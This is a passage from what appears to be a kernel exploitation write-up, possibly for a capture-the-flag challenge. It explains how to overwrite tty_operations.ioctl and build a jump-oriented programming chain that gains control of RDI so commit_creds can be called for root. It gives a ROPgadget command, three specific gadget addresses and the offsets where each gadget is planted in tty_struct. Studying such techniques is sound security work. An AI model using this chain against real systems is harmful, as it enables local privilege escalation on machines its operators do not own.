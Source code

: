 
Sounds great right? Except, the big issue is that the real register we want control over is `RDI`, AKA the first parameter. But take a look at how `ioctl` (and all other functions in `tty_operations`) works:

```c
int  (*ioctl)(struct tty_struct *tty, unsigned int cmd, unsigned long arg);
```

No matter what, every single `tty_operations` function sets `RDI` (the first parameter) to the address of the `tty_struct`. So, if we want to execute `commit_creds` or any other kernel function, we'll be executing `commit_creds(tty_struct)` which doesn't make any sense.

If we want to get root, all that's left is to somehow have some function B that does the following:

```c
void b(target_rdi) {
    rdi = target_rdi;
    a();
}
```

### JOP

This sort of thing is where *Jump-Oriented Programming* comes in, using the kernel leak for gadgets. We aren't able to use *Return-Oriented Programming* because, if we do that, then obviously we forgo all the progress we made in setting `RDI` (since we'll have to re-call `ioctl`, which thus, refucks `RDI` again).

**Important note**: Unlike normal searching for ROP/JOP/COP gadgets, not all of the `vmlinux` address space is available to use. The kernel sometimes, usually, blocks off alot of gadgets by setting their pages to `NX` (thus making them brick the kernel upon attempted execution).

In order to locate valid gadgets, we'll need to search for them in the address space that is actually executable. We'll then need to subtract the addresses of all gadgets by `0xffffffff81000000` in order to get the offset relevant to the base address of the kernel.

```bash
$ ROPgadget --binary ./vmlinux --all --range 0xffffffff81000000-0xffffffff82200000 > gadgets
```

In short, here's the gadgets that we'll be using (in their order):

```as
0xffffffff8132e788 : add cl, byte ptr [rax - 0x75] ; push rdi ; adc cl, ch ; pop rsi ; sar bh, cl ; jmp qword ptr [rsi + 0x2e]
0xffffffff81d4b591 : push rdx ; jmp qword ptr [rsi + 0x66]
0xffffffff8191d2bd : pop rdi ; inc al ; jmp qword ptr [rsi + 0x41]
```

Here's how it works:
1. Knowing `ioctl` controls `rdx`, we have `rdx` control
1. We modify `ioctl` in the `tty_operations` struct to the first gadget, which will:
    1. Push the value of `rdi` to the stack (where `rdi` is the address of the `tty_struct`)
    1. Pop off the stack into `rsi` (aka, set `rsi=rdi=tty_struct_addr`)
    1. Jump to `tty_struct_addr+0x2e`, which beforehand will be set to the next gadget
1. At `tty_struct_addr+0x2e`, the second gadget will:
    1. Push the value of `rdx` onto the stack
    1. Jump to `tty_struct_addr+0x66`
1. At `tty_struct_addr+0x66`, the third and final gadget will:
    1. Pop off the stack into `rdi` (aka, set `rdi=rdx`, thus meaning we have `rdi` control)
    1. Jump to `tty_struct_addr+0x41`
1. Now that `rdi` has been set to a value we want, `tty_struct_addr+0x41` will contain the address of the function we want executed.
